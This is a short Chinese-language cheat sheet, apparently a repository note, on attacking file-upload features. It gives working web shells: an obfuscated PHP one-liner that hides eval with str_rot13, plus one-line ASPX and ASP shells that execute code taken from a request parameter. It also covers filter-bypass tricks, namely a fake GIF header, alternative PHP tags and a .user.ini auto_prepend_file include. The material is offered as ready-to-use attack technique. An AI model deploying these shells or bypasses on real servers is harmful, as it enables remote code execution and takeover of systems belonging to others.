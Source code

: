 # Upload

* ### 上传图片马

burp抓包更改后缀（php，html，js，aspx）

注意文件头：

```
GIF98a //GIF文件头
```

* #### 关键字屏蔽绕过：

```
<?php=
```

```
<?php

?>
```

```
<script language="php"></script>
```

上面的三句话等价

屏蔽eval、assert等木马关键字时，通过加密解密进行绕过

```
<?php 
$exp = $_POST['shell'];
@preg_replace('/ad/e','@'.str_rot13('riny').'($exp)', 'add');
?>    //等同于php一句话<?php eval($_POST[shell]);?>
```

aspx木马

```
<%@ Page Language="Jscript"%><%eval(Request.Item["shell"],"unsafe");%>
```

asp木马

```
<%eval request("shell")%>
```

特殊：通过上传.user.ini内部增加文件自动包含进行传马攻击

```
Auto_prepend_file=2.jpg
```



